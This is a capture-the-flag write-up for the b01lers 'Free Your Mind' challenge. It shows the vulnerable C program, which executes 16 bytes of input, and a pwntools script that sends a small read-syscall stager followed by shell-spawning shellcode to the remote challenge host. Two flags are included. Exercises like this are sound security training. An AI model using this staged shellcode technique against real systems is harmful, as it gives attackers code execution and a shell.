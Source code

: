 FLAG: flag{Th3_BuNNy_wabbit_l3d_y0u_h3r3_4_a_reason}

<h1 id="FreeYourMind">Free Your Mind</h1>

### Description:

Next up, hack the matrix again, but this time, insert your own code.
nc chal.ctf.b01lers.com 1007

### Solution:

challenge source code:



{% highlight C %}
#include <stdio.h>
#include <unistd.h>

char shellcode[16];

int main() {
    char binsh[8] = "/bin/sh";

    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);

    printf("I'm trying to free your mind, Neo. But I can only show you the door. You're the one that has to walk through it.\n");
    read(0, shellcode, 16);

    ((void (*)()) (shellcode))();
}
    
{% endhighlight %}



this is a shellcode challenge I am the second person to solve this challenge, 
we can only write 16byte shellcode to the `.bss`. in order to send our full shellcode we can 
write a shellcode that can read from stdin and after that we send our shellcode to the last part of shellcode 

{% highlight python %}
from pwn import * 
#r = process("./shellcoding-5f75e03fd4f2bb8f5d11ce18ceae2a1d")
r = remote("chal.ctf.b01lers.com", 1007)
binsh = 0x4011b3
shellcode = ''' mov rsi, 0x40409e
                mov edx, 100
                syscall
'''
r.sendline(asm(shellcode))
r.sendline(asm(shellcraft.sh()))
r.interactive()
{% endhighlight %}

FLAG: flag{cust0m_sh3llc0d1ng_c4n_b33_c00l}
